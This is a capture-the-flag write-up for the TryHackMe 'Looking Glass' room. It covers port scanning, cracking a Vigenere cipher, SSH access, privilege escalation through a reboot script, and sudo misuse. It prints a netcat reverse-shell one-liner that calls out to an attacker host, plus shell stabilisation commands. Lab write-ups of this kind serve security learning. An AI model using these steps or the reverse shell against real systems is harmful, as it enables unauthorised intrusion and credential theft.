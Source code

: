 ```yaml
---
title: "Looking Glass - TryHackMe"
date: "2021-01-10"
categories: 
  - "tryhackme"
coverImage: "Looking-Glass.png"
---
```


Write-up for tryhackme room [looking glass](https://tryhackme.com/room/lookingglass).

Difficulty Level - Medium

Start with Nmap scan

```
nmap -A -oN allport -p- $IP -T4
```

![](/Images/lookingglass/Screenshot-2021-01-10-181145.png)

As you can see it has a lot ports, apart from OpenSSH (port 22) from port 9000 to port 14000 it have a lot up ports.

when we try to connect to the port we get some message.

![](/Images/lookingglass/Screenshot-2021-01-10-181813.png)

when randomly connecting to port message change from "Lower" to "Higher".

![](/Images/lookingglass/Screenshot-2021-01-10-182208.png)

So I'm guessing we need to connect to right port, we can easily narrow it down to right port. took some time to connect to right port when we connect it give some cipher text and ask for **secret**.

![](/Images/lookingglass/Screenshot-2021-01-10-182801.png)

The correct port is always changing so my port won't work for you. Now we need to decipher the text and find the SECRET. when we look at it we can easily guess it is "**Vigenere Cipher**" we don't have key but there are some online tool to decipher the text.

**[Vigenere Solver](https://www.guballa.de/vigenere-solver)** it help to solve poem, and we get the Secret when we enter the secret we get SSH login credential

![](/Images/lookingglass/Screenshot-2021-01-10-183726.png)

this SSH credential also keep change each time machine reboot.

we log into machine and try to do basic enumeration we can reboot without password, also there is shell script in home directory.

![](/Images/lookingglass/Screenshot-2021-01-10-184641.png)

we can insert reverse shell into script and reboot machine to get shell.you can find reverse shell payloads [here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

after you got reverse shell make shell more stabilize

```
python3 -c 'import pty; pty.spawn("/bin/bash")' 

export TERM=xterm
( Press "CTRL + Z" it suspend terminal then enter last command ) 

stty raw -echo; fg
```

In "**/home**" directory we can find another text file name "**humptydumpty.txt**" with contain bunch of hashes you can decrypt using [CrackStation](https://crackstation.net/).

crackstation won't crack the last hash it took long time but finally found out its not hash, we need to convert those from hex to ASCII. you can do it from [CyberChef](https://gchq.github.io/CyberChef/).

We will find the password from the text file name we can guess its password for user **humptydumpty**.

![](/Images/lookingglass/Screenshot-2021-01-10-190608.png)

i tried enumeration for some time but didn't find anything, but we can see alice profile can be execute by anyone so can blindly execute some files, 1st think come to mind is **SSH** key, if you familiar with Linux you can find SSH key in "**/home/alice/.ssh**" .

![](/Images/lookingglass/Screenshot-2021-01-10-191411.png)

now login as Alice.

Do the basic enumeration, we cannot run "**Sudo -l**" because we don't have **alice** password but we can view sudoers manually.

![](/Images/lookingglass/Screenshot-2021-01-10-192304.png)

alice can run mentioned specific word in **/bin/bash** without password so we need to run "sudo -h" for host.

![](/Images/lookingglass/Screenshot-2021-01-10-192722.png)

Finally Root.

Happy Hacking!!!
